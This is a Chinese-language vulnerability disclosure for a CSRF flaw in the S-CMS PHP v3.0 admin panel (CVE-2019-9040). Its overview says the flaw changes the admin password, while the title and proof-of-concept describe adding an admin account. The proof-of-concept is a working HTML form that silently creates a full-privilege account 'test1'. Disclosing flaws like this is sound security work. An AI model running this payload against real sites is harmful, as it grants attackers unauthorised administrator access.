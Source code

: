 ### 漏洞简介 

|漏洞名称|上报日期|漏洞发现者|产品首页|软件链接|版本|CVE编号|
--------|--------|---------|--------|-------|----|------|
|S-CMS企业建站系统PHP版v3.0后台存在CSRF可添加管理员权限账号|2019-02-22|qn（137535957@qq.cn）|[https://www.s-cms.cn](https://www.s-cms.cn) | [https://www.s-cms.cn](https://www.s-cms.cn) |PHP v3.0| [CVE-2019-9040](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9040)|  

#### 漏洞概述 

> 恶意攻击者可以精心伪造一个html页面诱骗已登录的管理用户点击，从而更改管理员账户密码。 

### POC实现代码如下： 

> exp代码如下： 

``` html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/1.com.php/admin/ajax.php?type=admin&action=add&lang=0" method="POST">
      <input type="hidden" name="A&#95;login" value="test1" />
      <input type="hidden" name="A&#95;pwd" value="test1" />
      <input type="hidden" name="A&#95;type" value="1" />
      <input type="hidden" name="A&#95;a0" value="1" />
      <input type="hidden" name="A&#95;a1" value="1" />
      <input type="hidden" name="A&#95;a2" value="1" />
      <input type="hidden" name="A&#95;a3" value="1" />
      <input type="hidden" name="A&#95;a4" value="1" />
      <input type="hidden" name="A&#95;a5" value="1" />
      <input type="hidden" name="A&#95;a6" value="1" />
      <input type="hidden" name="A&#95;a8" value="1" />
      <input type="hidden" name="A&#95;a10" value="1" />
      <input type="hidden" name="A&#95;a7" value="1" />
      <input type="hidden" name="A&#95;a9" value="1" />
      <input type="hidden" name="A&#95;a11" value="1" />
      <input type="hidden" name="A&#95;textauth&#91;&#93;" value="all" />
      <input type="hidden" name="A&#95;productauth&#91;&#93;" value="all" />
      <input type="hidden" name="A&#95;bbsauth&#91;&#93;" value="all" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
